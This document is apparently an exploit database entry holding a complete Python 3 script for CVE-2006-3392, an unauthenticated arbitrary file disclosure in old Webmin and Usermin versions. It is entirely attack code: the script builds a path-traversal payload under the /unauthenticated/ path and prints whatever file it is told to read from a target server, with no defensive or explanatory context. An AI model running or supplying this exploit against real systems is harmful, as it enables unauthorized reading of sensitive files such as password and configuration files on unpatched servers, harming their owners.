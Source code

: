 Exploit
-------

    #!/usr/bin/python3

    # Exploit Title: Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure (Python3)
    # Exploit Author: Ziani Taha @0xtz
    # Vendor Homepage: http://www.webmin.com/
    # Software Link: http://www.webmin.com/download.html
    # Version: Webmin < 1.290 / Usermin < 1.220
    # Tested on: Linux
    # CVE : CVE-2006-3392

    import argparse
    import requests
    import os

    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='HTTP or HTTPS', required=True, type=str)
    parser.add_argument('-u', '--url',required=True, help='Server Url or IP adresse')
    parser.add_argument('-p', '--port',required=True, type=int, help='Server port ex: 8080')
    parser.add_argument('-f', '--file', required=True, help='File to read frome server',type=str)
    args = parser.parse_args()

    def main():
        payload = '/.%01' * 40
        #print(f'paylood:{payload}')
        url = (f'{args.target}://{args.url}:{args.port}/unauthenticated/{payload}{args.file}')
        print(url)
        r = requests.get(url)
        print('----------------------------------------------------------------\n')
        print(r.text)
        print('----------------------------------------------------------------\n')


    if __name__ == '__main__':
        main()